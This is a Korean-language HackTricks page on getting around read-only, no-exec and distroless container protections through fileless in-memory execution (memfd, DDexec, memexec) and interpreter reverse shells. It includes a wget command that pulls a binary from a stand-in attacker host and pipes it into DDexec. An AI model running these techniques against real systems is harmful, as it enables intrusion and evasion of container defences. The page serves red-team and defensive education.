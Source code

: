 # FS 보호 우회: 읽기 전용 / 실행 금지 / Distroless

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **우리는 인재를 모집합니다!** (_유창한 폴란드어 필기 및 구사 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

## 비디오

다음 비디오에서 이 페이지에 언급된 기술을 더 깊이 설명합니다:

* [**DEF CON 31 - 리눅스 메모리 조작 탐색을 통한 스텔스 및 회피**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng 및 인메모리 dlopen()을 통한 스텔스 침입 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## 읽기 전용 / 실행 금지 시나리오

리눅스 머신이 **읽기 전용 (ro) 파일 시스템 보호**로 마운트되는 경우가 점점 더 많아지고 있습니다. 특히 컨테이너에서 그렇습니다. 이는 **`readOnlyRootFilesystem: true`**를 `securitycontext`에 설정하는 것만으로도 컨테이너를 실행할 수 있기 때문입니다:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

그러나 파일 시스템이 ro로 마운트되더라도 **`/dev/shm`**는 여전히 쓰기가 가능하므로 디스크에 아무것도 쓸 수 없다는 것은 잘못된 것입니다. 그러나 이 폴더는 **실행 금지 보호**로 마운트되므로 여기에서 바이너리를 다운로드하면 **실행할 수 없습니다**.

{% hint style="warning" %}
레드 팀 관점에서 볼 때, 이는 시스템에 이미 없는 바이너리(예: 백도어 또는 `kubectl`과 같은 열거기)를 다운로드하고 실행하는 것을 **복잡하게 만듭니다**.
{% endhint %}

## 가장 쉬운 우회: 스크립트

바이너리를 언급했지만, **인터프리터가 머신 내에 있는 한** 어떤 스크립트도 **실행할 수 있습니다**. 예를 들어, `sh`가 있는 경우 **셸 스크립트**를 실행하거나 `python`이 설치된 경우 **파이썬 스크립트**를 실행할 수 있습니다.

그러나 이것만으로는 바이너리 백도어나 실행해야 할 다른 바이너리 도구를 실행하기에 충분하지 않습니다.

## 메모리 우회

바이너리를 실행하고 싶지만 파일 시스템이 이를 허용하지 않는 경우, 가장 좋은 방법은 **메모리에서 실행하는 것**입니다. 왜냐하면 **그곳에서는 보호가 적용되지 않기 때문입니다**.

### FD + exec 시스템 호출 우회

머신 내에 **Python**, **Perl**, 또는 **Ruby**와 같은 강력한 스크립트 엔진이 있는 경우, 메모리에서 실행할 바이너리를 다운로드하고, 메모리 파일 설명자(`create_memfd` 시스템 호출)에 저장한 다음, **`exec` 시스템 호출**을 호출하여 **실행할 파일로 fd를 지정**할 수 있습니다.

이를 위해 [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) 프로젝트를 쉽게 사용할 수 있습니다. 바이너리를 전달하면 **바이너리가 압축되고 b64 인코딩된** 스크립트를 지정된 언어로 생성하며, **fd**를 생성하기 위해 `create_memfd` 시스템 호출을 호출하고 이를 실행하기 위해 **exec** 시스템 호출을 호출하는 지침이 포함됩니다.

{% hint style="warning" %}
이 방법은 PHP나 Node와 같은 다른 스크립팅 언어에서는 작동하지 않습니다. 왜냐하면 이들 언어는 스크립트에서 원시 시스템 호출을 호출하는 **기본 방법이 없기 때문입니다**. 따라서 바이너리를 저장할 **메모리 fd**를 생성하기 위해 `create_memfd`를 호출할 수 없습니다.

또한, `/dev/shm`에 있는 파일로 **정규 fd**를 생성하는 것도 작동하지 않습니다. 왜냐하면 **실행 금지 보호**가 적용되기 때문에 이를 실행할 수 없기 때문입니다.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) 기술은 **자신의 프로세스 메모리를 수정**하여 **`/proc/self/mem`**을 덮어쓸 수 있게 해줍니다.

따라서 **프로세스에서 실행되는 어셈블리 코드를 제어**함으로써, **셸코드**를 작성하고 프로세스를 "변형"하여 **임의의 코드를 실행**할 수 있습니다.

{% hint style="success" %}
**DDexec / EverythingExec**를 사용하면 **메모리**에서 자신의 **셸코드** 또는 **어떤 바이너리**를 **로드하고 실행**할 수 있습니다.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
더 많은 정보는 이 기술에 대해 Github를 확인하거나:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec)는 DDexec의 자연스러운 다음 단계입니다. **다른 바이너리**를 **실행**하고 싶을 때마다 DDexec를 다시 시작할 필요 없이, DDexec 기술을 통해 memexec 셸코드를 실행하고 **이 데몬과 통신하여 새 바이너리를 로드하고 실행**할 수 있습니다.

**memexec를 사용하여 PHP 리버스 셸에서 바이너리를 실행하는 방법에 대한 예시는** [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)에서 확인할 수 있습니다.

### Memdlopen

DDexec와 유사한 목적을 가진 [**memdlopen**](https://github.com/arget13/memdlopen) 기술은 **메모리에 바이너리를 로드하는 더 쉬운 방법**을 제공합니다. 이는 의존성이 있는 바이너리도 로드할 수 있게 해줄 수 있습니다.

## Distroless Bypass

### Distroless란 무엇인가

Distroless 컨테이너는 특정 애플리케이션이나 서비스 실행에 필요한 **최소한의 구성 요소**만 포함하고 있으며, 패키지 관리자, 셸 또는 시스템 유틸리티와 같은 더 큰 구성 요소는 제외합니다.

Distroless 컨테이너의 목표는 **불필요한 구성 요소를 제거하여 컨테이너의 공격 표면을 줄이고** 악용될 수 있는 취약점의 수를 최소화하는 것입니다.

### 리버스 셸

Distroless 컨테이너에서는 **정상적인 셸을 얻기 위해 `sh` 또는 `bash`**를 찾을 수 없을 수도 있습니다. `ls`, `whoami`, `id`와 같은 바이너리도 찾을 수 없습니다... 시스템에서 일반적으로 실행하는 모든 것입니다.

{% hint style="warning" %}
따라서, **리버스 셸**을 얻거나 **시스템을 열거**할 수 없습니다.
{% endhint %}

그러나 손상된 컨테이너가 예를 들어 플라스크 웹을 실행하고 있다면, 파이썬이 설치되어 있으므로 **파이썬 리버스 셸**을 얻을 수 있습니다. 노드를 실행하고 있다면 노드 리버스 셸을 얻을 수 있으며, 대부분의 **스크립팅 언어**와 마찬가지입니다.

{% hint style="success" %}
스크립팅 언어를 사용하여 언어의 기능을 활용하여 **시스템을 열거**할 수 있습니다.
{% endhint %}

**`read-only/no-exec`** 보호가 없다면, 리버스 셸을 악용하여 **파일 시스템에 바이너리를 작성**하고 **실행**할 수 있습니다.

{% hint style="success" %}
그러나 이러한 종류의 컨테이너에서는 이러한 보호가 일반적으로 존재하지만, **이전 메모리 실행 기술을 사용하여 우회할 수 있습니다**.
{% endhint %}

**RCE 취약점을 악용하여 스크립팅 언어의 **리버스 셸**을 얻고 메모리에서 바이너리를 실행하는 방법에 대한 **예시는** [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)에서 확인할 수 있습니다.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **우리는 인재를 모집합니다!** (_유창한 폴란드어 필기 및 구사 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.

</details>
{% endhint %}
